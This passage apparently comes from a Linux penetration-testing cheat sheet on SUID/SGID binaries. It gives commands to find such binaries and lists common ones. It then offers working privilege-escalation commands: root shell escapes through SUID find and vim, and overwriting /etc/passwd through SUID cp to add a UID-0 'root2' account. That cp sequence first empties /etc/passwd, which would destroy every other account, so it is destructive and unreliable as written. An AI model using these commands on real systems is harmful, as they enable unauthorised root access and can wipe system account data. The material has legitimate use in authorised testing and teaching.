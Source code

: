 ## SUID/SGID Binaries

### Finding SUID & SGID binaries
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Find SGID binaries
find / -perm -g=s -type f 2>/dev/null

# Alternative methods
find / -perm -4000 -type f 2>/dev/null  # SUID
find / -perm -2000 -type f 2>/dev/null  # SGID
```

### Common SUID Binaries to Check
```
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/traceroute6
/usr/bin/su
/usr/sbin/pppd
/usr/bin/nmap (older versions)
```

### GTFOBins Check
Check if found binaries are listed in [GTFOBins](https://gtfobins.github.io/).

Examples of SUID binary exploitation:
```bash
# Example: Using find with SUID
./find . -exec /bin/sh -p \; -quit

# Example: Using cp with SUID to copy /etc/passwd
./cp /etc/passwd /tmp/
./cp /dev/null /etc/passwd
echo "root2:x:0:0:root:/root:/bin/bash" > /tmp/passwd
./cp /tmp/passwd /etc/passwd

# Example: Using vim with SUID
./vim -c ':!/bin/sh'
```

## Sudo Privileges
